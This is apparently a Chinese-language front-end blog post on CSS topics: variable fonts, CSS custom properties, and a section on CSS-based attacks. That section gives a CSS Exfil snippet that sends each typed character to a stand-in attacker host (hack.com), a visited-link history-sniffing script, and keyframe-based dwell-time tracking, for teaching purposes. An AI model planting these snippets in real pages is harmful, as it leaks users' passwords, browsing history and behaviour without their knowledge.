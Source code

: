 ```yaml
---
meta:
  - name: keywords
    content: CSS,变量字体,variable-font,CSS攻击,css-attack,CSS变量
  - name: description
    content: 本文介绍了几种CSS中有趣的内容如变量字体、CSS攻击手段以及CSS新特性CSS变量。
---
```


# 🎨 有关 CSS 的一些极有趣的东西

[TOC]

## 灵活字体

<!-- > The future is variable, though the future is in the variable -->

灵活字体（Variable fonts）是一种包含字体元信息如字宽、字重（甚至自定义形变）的字体的字体方案。主要通过使用 CSS `font-variation-settings` 属性配置变形轴，来达到使字体形变的效果，如：

```CSS
h2 {
  font-size: 64px;
  font-variation-settings: 'wght' 375;
}

```

一张图展示其迷人之处：

![Variable fonts](https://mgear-image.oss-cn-shanghai.aliyuncs.com/image/css-interesting/2019-11-21-02-03-38.gif)

这里有一个展示其强大排版能力的示例页面：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="result" data-user="jpamental" data-slug-hash="wvwgGLK" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Layout variations, part deux">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/jpamental/pen/wvwgGLK">
  Layout variations, part deux</a> by Jason Pamental (<a rel="nofollow" href="https://codepen.io/jpamental">@jpamental</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

啊，所以说要是不会设计还是做不出漂亮页面（狗子脸）

## CSS 攻击

也许大部分玩家都了解或熟悉 CSRF、XSS 之类的攻击方式及防御方式，不过你听说过这些使用 CSS 进行攻击的方法么？

### 输入检测

CSS Exfil 漏洞攻击意味着攻击者可以使用选择器确定你在页面输入的按键再通过 CSS 请求将其记录，如下代码：

```CSS
input[value^=a]{
    background-image: url(http://hack.com/a);
}
input[value^=b]{
    background-image: url(http://hack.com/b);
}
/* ... */
input[value^=z]{
    background-image: url(http://hack.com/9);
}
```

当你在输入框中输入字母的同时，浏览器将自动向攻击者指定的地址发送请求，你的字母输入顺序也就随之被记录下来了，结合 CSS 中其它特征，通过 CSS Exfil 攻击可以直接推断出一些输入简单的密码，凭借分析，也能推测出更加复杂的密码。

这里有一个测试网址可以用以重现与玩耍：[CSS Exfil 攻击测试](http://eaea.sirdarckcat.net/cssar/v2/)

### 历史记录检测

现在我们丢弃刚才提到的 CSS 选择器，转而使用 CSS 和浏览器打交道中所用到的其它东西，比如说：我们都知道在浏览器中点击过某个链接后，那个链接就会变色——对的，没错，问题就在这儿——通过向页面插入大量超链接，可以通过标签的颜色就能判断你有没有浏览过这些链接，从而绕过浏览器限制。代码类似以下：

```js
const link = document.createElement('a')
link.href = 'www.baidu.com'
document.body.appendChild(link)
const color = document.defaultView.getComputedStyle(link, null).getPropertyValue('color')

const isView = color === 'rgb(0, 0, 255)'
```

想看源代码及或寻找更深入的讨论，请点这儿：[i-know-where-youve-been](https://blog.jeremiahgrossman.com/2006/08/i-know-where-youve-been.html)

### 用户轨迹追踪

了解过 CSS Exfil 后，我们大概都能想到通过纯 CSS 代码来追踪用户鼠标点击、甚至是用户鼠标轨迹的方案，但是关于用户在页面的停留时长，你有没有思路呢？

以下是一种可能的解决方案：

```CSS
@keyframes time-count {
  0% {
    background-image: url('track.php?duration=1s');
  }
  1% {
    background-image: url('track.php?duration=2s');
  }
  /* ... */
  100% {
    background-image: url('track.php?duration=100s');
  }
}
#duration:hover::after {
  animation-name: time-count;
  animation-duration: 100s;
}
```

### 其它攻击手段

这里有一个不全的清单：

- [Side-channel Attack](https://github.com/evonide/misc)
- [Text Reader](https://bugs.chromium.org/p/chromium/issues/detail?id=543078)
- [Scrollbar Attack](https://github.com/cgvwzq/css-scrollbar-attack)

欢迎各位在评论区补充（在此先谢过大佬们）

## CSS 变量

CSS 变量（官方叫做 Custom Properties，即自定义属性）是一个意义于作用同样强大的东西，它给 CSS 带来了原生层面意义上的代码模块化。我们可以通过浏览器 API 与 JavaScript 进行交互，使得其功效进一步扩大，同时提高 CSS 的可读性及维护性。通过给 CSS 变量赋任意有意义的值，并交由 calc 函数计算，可以产生具有可读性的组合值。比如下面这个例子：

```css
.my-component {
  --theme-color: red;
  --card-width: 30px;
}
.my-component .title {
  color: var(--my-component-theme-color);
}
.my-component .card-container {
  width: calc(var(--my-component-card-width) * 3);
  border: solid 1px var(--my-component-theme-color);
}
```

我们给组件（my-component）定义了主题色及卡片宽度两个变量，这两个变量可以在作用范围内任意使用及被改造。这两个变量也意味着组件的样式向外部暴露了两个可供修改的入口。一般而言，我们可以使用这两种方法继续扩展代码，以达到修改变量的目的：

```html
<link rel="stylesheet" href="my-component.css" />
<style>
  .my-component {
    --theme-color: gray;
  }
</style>
```

```JavaScript
const $con = document.querySelector('.my-component')
$con.style.setProperty('--theme-color', 'gray')
```

这里有一个能展示 CSS 变量超能力的极具吸引力的例子：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="css,result" data-user="danwilson" data-slug-hash="BRdJVZ" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Single Div Accordion (Animated with CSS Variables)">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/danwilson/pen/BRdJVZ">
  Single Div Accordion (Animated with CSS Variables)</a> by Dan Wilson (<a rel="nofollow" href="https://codepen.io/danwilson">@danwilson</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

不知道你酸了没有，反正我是酸了。

## 阅读更多

希望本文能对你有所帮助，如果文中出现了不流畅或理解错误的地方也麻烦各位评论指出。<JJ><p>若有任何疑问，或想深入探讨，可以给我发邮件：dGFuZ25hZEBxcS5jb20=</p></JJ>

<JJ><p>所有的文章和源码都会汇总到我的[博客项目](https://github.com/Lionad-Morotar/blogs)，欢迎 Star & Follow，也请大家多来我的[线上博客逛逛](https://www.lionad.art)，排版超 Nice 哦~</p></JJ>

